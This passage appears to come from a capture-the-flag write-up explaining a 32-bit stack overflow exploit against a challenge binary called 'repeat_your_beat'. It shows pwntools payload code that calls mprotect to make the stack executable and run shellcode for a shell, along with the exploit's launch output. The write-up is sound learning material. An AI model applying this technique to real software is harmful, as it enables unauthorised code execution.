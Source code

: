 ```python
...
payload += b"JUNK"*2 # junk for ebx and ebp
payload += b"A"*16 # Junk upto return address
...
```
As it kind of says on the tin, just have some junk to fill the registers.

```python
...
input_buffer_offset = -0x148
...
payload += p32(libc.sym.mprotect) # jmp to mprotect
payload += p32(stack_leak + input_buffer_offset) # return address for mprotect
payload += p32(stack_end & -0x1000) # addr for the mprotect to make executable. Need to have a page-aligned value
payload += p32(0x1000) # length for mprotect to change permission
payload += p32(7) # permission to be set
...
```
So here is our functionality of the payload. We provide our `ret` address with the address for `mprotect`, to allow us to change the permissions of the stack page. We're then providing a return address for where `mprotect` should jump to if it fails. This is the same when doing a ret2libc - we provide an address for `system`, then a return address if it were to fail, normally junk bytes or an address for `exit`.

Then, we provide the address for the section which we want to change the permissions for. I perform bitwise and on the stack end with `0x1000` (pages are only 0x1000 in size, therefore we need to find the start of the memory mapping, which is at `0xABCDE000`), to therefore get the start of the stack page. We then provide the length of the page, as I've just said `0x1000`. The permission we want to set it `rwx`, or read, write and execute. This'll allow us to read the page (every page must be able to do this), write our shellcode to it, and then execute our shellcode.

```python
...
p.sendline(payload)
p.recv()
p.interactive()
p.close()
```
We then send our payload, receive back the data given (due to the program repeating anything we send to it), and then go into interactive mode. This'll give us our bash shell and allow us to execute any command we want. Once we exit interactive mode, we then have a nice close function to easily close without any EOF errors.

If we now run the exploit:
```bash
euan@euanb26  docker  python3 exploit_mprotect.py
[*] '[some_path]/repeat_your_beat'
   Arch:     i386-32-little
   RELRO:    Full RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
[*] '/lib/ld-linux.so.2'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
[+] Starting local process '[some_path]/repeat_your_beat': pid 44954
[*] '/usr/lib/i386-linux-gnu/libc-2.31.so'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    Canary found
   NX:       NX enabled
   PIE:      PIE enabled
```